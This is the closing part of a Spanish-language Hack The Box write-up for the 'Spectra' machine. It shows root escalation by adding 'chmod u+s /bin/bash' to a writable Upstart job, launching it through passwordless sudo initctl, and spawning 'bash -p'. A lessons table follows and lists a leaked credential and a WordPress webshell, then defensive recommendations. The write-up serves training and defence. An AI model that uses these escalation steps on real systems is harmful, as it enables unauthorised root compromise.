

```text
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

`katie` puede ejecutar `/sbin/initctl` como **cualquier usuario (incluido root)**, sin contraseña. `initctl` es la herramienta de control de Upstart usada para arrancar, parar y consultar jobs.

```bash
sudo /sbin/initctl --help
```



> 💡 La combinación de **escritura en un job de Upstart** + **permiso para lanzarlo vía `sudo initctl`** es un vector de escalada directo: el job se ejecuta con los privilegios del propio demonio `init` (root), por lo que cualquier comando insertado en su `script` se ejecuta como root en el momento de arrancarlo.

Editamos `test1.conf` e insertamos una línea al inicio del bloque `script` que otorga el bit SUID al intérprete de comandos:

```bash
nano /etc/init/test1.conf
```

Añadimos la línea `exec chmod u+s /bin/bash` antes del resto del script original:



```text
description "Test node.js server"
author       "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
    exec chmod u+s /bin/bash
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
```

Lanzamos el job modificado a través del privilegio `sudo` sobre `initctl`:

```bash
sudo /sbin/initctl start test1
```



```text
test1 start/running, process 6091
```

El job arranca como root, ejecuta nuestra línea `chmod u+s /bin/bash` y dota a `/bin/bash` del bit SUID. Invocamos una shell con privilegios elevados:

```bash
bash -p
whoami
```



```text
bash-4.3# whoami
root
```

> 💡 `bash -p` conserva los privilegios efectivos (`euid`) heredados del bit SUID en lugar de degradarlos al `uid` real del usuario que la invoca, que es justo lo que se necesita al abusar de un binario con `chmod u+s`.

✅ Compromiso total de la máquina.

---

## 5. Post-explotación y flags

### Flag de usuario

La flag de usuario reside en el `home` de `katie`, la cuenta obtenida mediante la contraseña de auto-login filtrada:

```bash
cat /home/katie/user.txt
```

### Flag de root

Con la shell SUID root obtenida vía el job de Upstart manipulado, leemos la flag de administrador:

```bash
cat /root/root.txt
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina encadena varios fallos de configuración e higiene de credenciales típicos de entornos de desarrollo mal segmentados de producción, sobre una base ChromeOS/Upstart poco habitual.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Vhost descubierto por enlaces internos en la página por defecto | `http://10.129.29.24` | Revela el dominio real (`spectra.htb`) y la estructura `/main` `/testing` |
| Directory listing habilitado | `/testing/` | Exposición de backups y estructura interna de WordPress |
| Backup `wp-config.php.save` accesible en texto plano | `/testing/wp-config.php.save` | Filtración de credenciales de base de datos (`devtest:devteam01`) |
| Reutilización de contraseña de desarrollo en el panel de administración | `/main/wp-login.php` (`administrator`) | Acceso administrativo no autorizado a WordPress |
| Editor de plugins de WordPress accesible desde el admin | `Plugins → Editor de plugins` | Ejecución remota de código (webshell PHP) |
| Contraseña de auto-login de ChromeOS almacenada en claro | `/etc/autologin/passwd` | Credencial reutilizable para movimiento lateral por SSH |
| Jobs de Upstart escribibles por grupo `developers` + `sudo initctl` sin contraseña | `/etc/init/test*.conf` | Escalada a root mediante inyección de comandos en un job ejecutado por `init` |

---

## Recomendaciones defensivas

- Deshabilitar el `directory listing` de nginx (`autoindex off;`) en cualquier entorno, incluidos los de pruebas.
- No dejar ficheros de backup (`.save`, `.bak`, `.old`, `.swp`) accesibles desde el document root; excluirlos explícitamente en la configuración del servidor web.
- No reutilizar contraseñas entre entornos de desarrollo/testing y producción, ni entre servicios distintos (base de datos, panel web, SSH).
- Restringir el acceso al **Editor de plugins/temas** de WordPress (`DISALLOW_FILE_EDIT` en `wp-config.php`) para evitar RCE post-autenticación incluso con cuentas de administrador comprometidas.
- Nunca almacenar contraseñas de auto-login u otras credenciales en texto plano en el sistema de ficheros, especialmente en servidores que no son dispositivos de kiosco físico.
- Auditar permisos de grupo sobre ficheros de definición de servicios (`/etc/init/`, `/etc/systemd/system/`); ningún usuario no administrativo debería poder escribir jobs que se ejecutan como root.
- Restringir entradas de `sudoers` sobre herramientas de control de procesos/servicios (`initctl`, `systemctl`, `service`) — permiten ejecución de código arbitrario como root si el job es modificable.
- Aplicar el principio de **mínimo privilegio** y segmentar por completo los entornos de desarrollo/testing de los de producción, incluyendo credenciales y accesos independientes.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
